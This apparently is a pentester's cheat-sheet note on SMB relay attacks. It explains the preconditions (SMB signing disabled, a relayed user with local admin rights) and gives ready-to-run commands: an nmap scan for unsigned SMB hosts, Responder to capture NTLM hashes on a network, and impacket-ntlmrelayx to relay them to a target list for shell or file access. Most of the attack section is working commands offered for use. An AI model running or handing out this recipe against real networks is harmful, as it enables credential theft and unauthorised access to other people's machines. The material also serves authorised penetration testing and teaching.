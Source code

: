 > A SMB relay attack is where an attacker captures a users NTLM hash and relays its to another machine on the network. Masquerading as the user and authenticating against SMB to gain shell or file access.

Requirements for an attack:
- The target must not enforce or enable SMB signing:
  `nmap --script=smb2-security-mode.nse -p 445 <ip>`
- For valuable outcomes, the relayed user’s credentials must have local admin status on the machine.
- You cannot relay credentials to the same machine they were captured from.
- Note: By default, all Windows workstations (non-servers) have SMB signing either disabled or not enforced.
- Another note: Since these credentials undergo relaying, password strength becomes irrelevant.

---
# responder + ntlmrelayx.py

Edit the responder config file */etc/responder/Responder.conf* and turn SMB and HTTP off.
Then run responder:
```bash
sudo responder -v -I eth1 -dw
```

Run impacket-ntlmrelayx:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```
The file targets.txt contains the IP addresses of all hosts that run an SMB service with message signing disabled.
SMB message singing enabled/disabled can be checked with:
`nmap -Pn --script=smb2-security-mode.nse -p 445 <IP>`
